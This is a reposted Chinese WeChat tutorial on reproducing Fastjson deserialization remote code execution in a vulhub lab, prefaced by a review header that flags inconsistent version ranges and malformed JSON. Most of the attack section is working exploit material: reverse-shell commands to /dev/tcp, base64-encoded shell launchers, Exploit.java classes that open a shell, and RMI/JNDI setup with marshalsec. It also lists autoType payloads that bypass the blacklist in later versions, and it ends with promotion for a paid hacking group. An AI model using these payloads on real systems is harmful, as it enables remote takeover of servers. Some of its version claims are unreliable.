## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Lab1.2.47; list&lt;=24/41/42/43/45/47/62/66; later headings use&lt; not&lt;=; runtime/third-party gadget prerequisites incomplete

代码与实验材料：Two RMI tooling workflows and Java class examples; first mixes generated-tool and manual class flow; claim deleting class allows repeat ignores target classloader cache

来源证据范围：Original WeChat, official marshalsec/wyzxxz repos, no primary fixes

- **事实待核（1）**：InetAddress DNS response presented as vulnerability proof rather than parser behavior; primary version metadata unusable。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **代码与转录边界（2）**：Affected boundary contradictions and absent AutoType/dependency requirements in older sections; malformed/collapsed JSON。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **来源与引用处置（3）**：Commercial/footer bulk, no remediation, repeated setup。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 【漏洞复现】Fastjson 系列

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5ebWECpbpX3-c7PEml2NVA)

现在只对常读和星标的公众号才展示大图推送，建议大家能把**渗透安全团队** “**设为星标**”，否则可能就看不到了啦！
------------------------------------------------------------

一、Fastjson 概述
=============

Fastjson 是阿里巴巴公司开源的一款 json 解析器，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。

二、历史漏洞
======

```
Fastjson <=1.2.24反序列化远程命令执行漏洞
Fastjson <=1.2.41反序列化远程命令执行漏洞
Fastjson <=1.2.42反序列化远程命令执行漏洞
Fastjson <=1.2.43反序列化远程命令执行漏洞
Fastjson <=1.2.45反序列化远程命令执行漏洞
Fastjson <=1.2.47反序列化远程命令执行漏洞
Fastjson <=1.2.62反序列化远程命令执行漏洞
Fastjson <=1.2.66反序列化远程命令执行漏洞

```

三、漏洞介绍
======

fastjson 在解析 json 的过程中，支持使用 auto Type 来实例化某个具体的类，并调用该类的 set/get 方法来访问属性，通过查找代码中相关的方法，即可构造出一些恶意利用链。

fastjson 于 1.2.24 版本后增加了反序列化的白名单，而在 1.2.48 以前的版本中，攻击者可以利用特殊构造的 json 字符串绕过白名单检测，成功执行任意命令。

四、Fastjson 特征识别
===============

1、第一种识别方法 - json 格式包
--------------------

json 学习链接：https://www.runoob.com/json/json-tutorial.html

```
{
    "sites": [
    { "name":"菜鸟教程" , "url":"www.runoob.com" }, 
    { "name":"google" , "url":"www.google.com" }, 
    { "name":"微博" , "url":"www.weibo.com" }
    ]
}

```

Fastjson 的作用是用于对 JSON 格式的数据进行解析和打包，所以出现 json 格式的地方就有可能使用了 Fastjson。



2、第二种识别方法 - 报错处理
----------------

1、我们抓到包以后，首先将包改为 POST。



2、这时候，我们需要改两处字段。



*   `Content-Type: application/xxxx`原本的字段改为`Content-Type: application/json`
    
*   后面空一格，加上。
    

```
{
   "name":"1"
}

```

3、然后，我们删除 json 格式包的一半，使其报错。

```
{
   "name":"1

```



报错之后，很明显响应包里面出现了 alibaba.fastjson 的错误信息。

3、第三种识别方式 - DNSlog
------------------

1、java.net.InetAddress 这个类在实例化时会尝试作对 example.com 做域名解析，这时候可以通过 dnslog 的方式得知漏洞是否存在。

2、获取 dnslog 地址：http://dnslog.cn/



3、将地址复制到 json 包相应的位置。

```
{
    "name":{
        "@type":"java.net.InetAddress",
        "val":"i1q73g.dnslog.cn"
    }
}

```



进行发包。

4、DNSlog 顺利回显。



五、Fastjson1.2.47 命令执行漏洞复现
=========================

1、JNDI
------

1、JNDI(The Java Naming and Directory Interface，Java 命名和目录接口) 是一组在 Java 应用中访问命名和目录服务的 API，命名服务将名称和对象联系起来，使得我们可以用名称访问对象。

可以访问以下名称 / 目录服务：

```
RMI（Java远程方法调用）
LDAP（轻量级目录访问协议）
CORBA（公共对象请求代理体系结构）
DNS（域名服务）

```

2、JNDI 注入 + RMI
---------------

1、RMI 是 Java 远程方法调用，是 Java 编程语言里，一种用于实现远程过程调用的应用程序编程接口，它使客户机运行的程序可以调用远程服务器的对象。

3、环境搭建
------

1、这里我们使用的是 vulhub 靶场。

```
cd 1.2.47-rce/
docker-compose up -d
docker-compose config

```



2、接着我们访问漏洞页面：http://192.168.111.133:8090/



环境启动成功。

4、第一种复现
-------

1、靶机 IP：192.168.111.133

    攻击机 IP：192.168.111.129

2、下载利用工具。

下载链接：git clone https://github.com/wyzxxz/fastjson_rce_tool.git

3、利用工具启动 RMI server

```
java -cp fastjson_tool.jar fastjson.HRMIServer 192.168.111.129 9999 "要执行的命令"
java -cp fastjson_tool.jar fastjson.HRMIServer 攻击机IP 端口随意 "要执行的命令"

```

如果是反弹 shell 的命令，需要将其进行编码，管道符，输入输出重定向，只有在 bash 环境下才能用，而在这里，我们使用的是 java 为我们提供的命令执行环境，不支持管道符，输入输出重定向等，因此需要 base64 编码一下。

4、反弹 shell 命令。

```
bash -i >& /dev/tcp/192.168.111.129/6666 0>&1

```

我们进行 base64 编码：http://www.jsons.cn/base64/



```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xMjkvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}

```

5、然后放入 payload 中执行。

```
java -cp fastjson_tool.jar fastjson.HRMIServer 192.168.111.129 9999 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xMjkvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}"

```



利用 JNDI 注入加载远程 RMI server 上的字节码。

6、生成字节码文件步骤如下：

Exploit.java

```
//javac Exploit.java
import java.lang.Runtime;
import java.lang.Process;
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.111.129/6666 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}

```

7、对 Exploit.java 文件进行编译。

javac Exploit.java



8、我们在攻击机开启监听。

nc -lvvp 6666



9、我们在 Burp 中复制 payload，进行发包。

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.111.129:9999/Object",
        "autoCommit":true
    }
}

```



10、成功得到 shell。



注意，重新获得 shell 的话，需要删除. class 文件，重新生成。

5、第二种复现
-------

1、工具下载：https://github.com/mbechler/marshalsec

2、借助 marshalsec 项目启动一个 rmi 服务器，监听一个端口，并指定加载远程类 Exploit.class。

maven 打包项目成 jar 包：

mvn clean package -DskipTests

2、攻击机开启 RMI Server。  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.111.129:8000/#Exploit" 9999

```

3、编写漏洞利用脚本 Exploit.java。  

```
//javac Exploit.java
public class Exploit{
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/192.168.111.129/2333 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}

```



4、在攻击机开启 8000 端口的 HTTP 服务，在 Exploit.class 所在目录执行。

```
[python2]python2 -m SimpleHTTPServer
[python3]python3 -m http.server

```

5、攻击机开启 2333 端口监听，等待靶机将 shell 送上来。

nc -lvvp 2333



6、Burp 攻击靶机。

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.111.129:9999/Exploit",
        "autoCommit":true
    }
}

```



7、得到 shell。



六、Fastjson 历史漏洞
===============

1、Fastjson < 1.2.41
-------------------

第一个 Fastjson 反序列化漏洞爆出以后，阿里在 1.2.25 版本设置了`autoTypeSupport`属性默认为 false，并且增加了 checkAutoType() 函数，通过黑白名单的方式来防御 Fastjson 反序列化漏洞，因此后面发现的 Fastjson 反序列化漏洞都是针对黑名单绕过来实现攻击利用的目的。

`com.sun.rowset.jdbcRowSetlmpl`在 1.2.25 版本被加入了黑名单，fastjson 有个判断条件判断类名是否以 "L" 开头，以 ";" 结尾，是的话就提取出其中的类名在加载进来。

那么就可以构造如下 exp：  

```
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;", "dataSourceName":"rmi://ip:9999/rce_1_2_24_exploit", "autoCommit":true

```

2、Fastjson < 1.2.42
-------------------

阿里在发现这个绕过漏洞之后做出了类名如果为 L 开头，; 结尾的时候就先去掉 L 和; 进行黑名单验证的方法，但是没有考虑到双写或者多写的情况，也就是说这种方法只能防御一组 L 和;，构造 exp 如下，即双写 L 和;  

```
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://x.x.x.x:9999/exp", "autoCommit":true}

```

3、Fastjson < 1.2.47
-------------------

在 1.2.47 版本及以下的情况下，loadClass 默认 cache 为 true，首先使用`java.lang.Class`把获取到的类缓存到 mapping 中，然后直接从缓存中获取到了`com.sun.rowset.jdbcRowSetlmpl`这个类，即可绕过黑名单。  

```
{ "a": { "@type": "java.lang.Class", "val": "com.sun.rowset.JdbcRowSetImpl" }, "b": { "@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "rmi://ip:9999/exp", "autoCommit": true \}\}

```

4、Fastjson < 1.2.66
-------------------

基于黑名单绕过，autoTypeSupport 属性 true 才能使用，在 1.2.25 版本之后，autoTypeSupport 默认为 false。

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://ip:1389/Calc"}{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://ip:1389/Calc"}{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://ip:1389/Calc"}

```

**★  
**

**付费圈子  
**

  

  

**欢 迎 加 入 星 球 ！**

**代码审计 + 免杀 + 渗透学习资源 + 各种资料文档 + 各种工具 + 付费会员**


  

****进成员内部群****


  

  


  

****星球的最近主题和星球内部工具一些展示****











****

**关 注 有 礼**

  

  

关注下方公众号回复 “666” 可以领取一套领取黑客成长秘籍

 还在等什么？赶紧点击下方名片关注学习吧！

  

**推荐阅读**

[**************群聊 | 技术交流群 - 群除我佬**************](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489372&idx=1&sn=5e14ba5fa59059fb1ee405e56ef90d40&chksm=c175eaf3f60263e5ef5415a8a9fc134f0890fdb9c25ab956116d17109baf98b3bd6bed572a2d&scene=21#wechat_redirect)

[****干货｜史上最全一句话木马****](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489259&idx=1&sn=b268701409ad4e8785cd5ebc23176fc8&chksm=c175eb44f60262527120100bd353b3316948928bd7f44cf9b6a49f89d5ffafad88c6f1522226&scene=21#wechat_redirect)

[**干货 | CS 绕过 vultr 特征检测修改算法**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247486980&idx=1&sn=6d65ae57f03bd32fddb37d7055e5ac8e&chksm=c175f3abf6027abdad06009b2fe964e79f2ca60701ae806b451c18845c656c12b9948670dcbc&scene=21#wechat_redirect)  

[**实战 | 用中国人写的红队服务器搞一次内网穿透练习**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488628&idx=1&sn=ff2c617cccc00fe262ed9610c790fe0e&chksm=c175e9dbf60260cd0e67439304c822d28d510f1e332867e78a07d631ab27143309d14e27e53f&scene=21#wechat_redirect)  

[**实战 | 渗透某培训平台经历**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488613&idx=1&sn=12884f3d196ac4f5c262a587590d516d&chksm=c175e9caf60260dcc0d5d81a560025d548c61fda975d02237d344fd79adc77ac592e7e562939&scene=21#wechat_redirect)  

[**实战 | 一次曲折的钓鱼溯源反制**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489278&idx=1&sn=5347fdbf7bbeb3fd37865e191163763f&chksm=c175eb51f602624777fb84e7928bb4fa45c30f35e27f3d66fc563ed97fa3c16ff06d172b868c&scene=21#wechat_redirect)

**免责声明**

由于传播、利用本公众号渗透安全团队所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号渗透安全团队及作者不为**此**承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！

好文分享收藏赞一下最美点在看哦

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
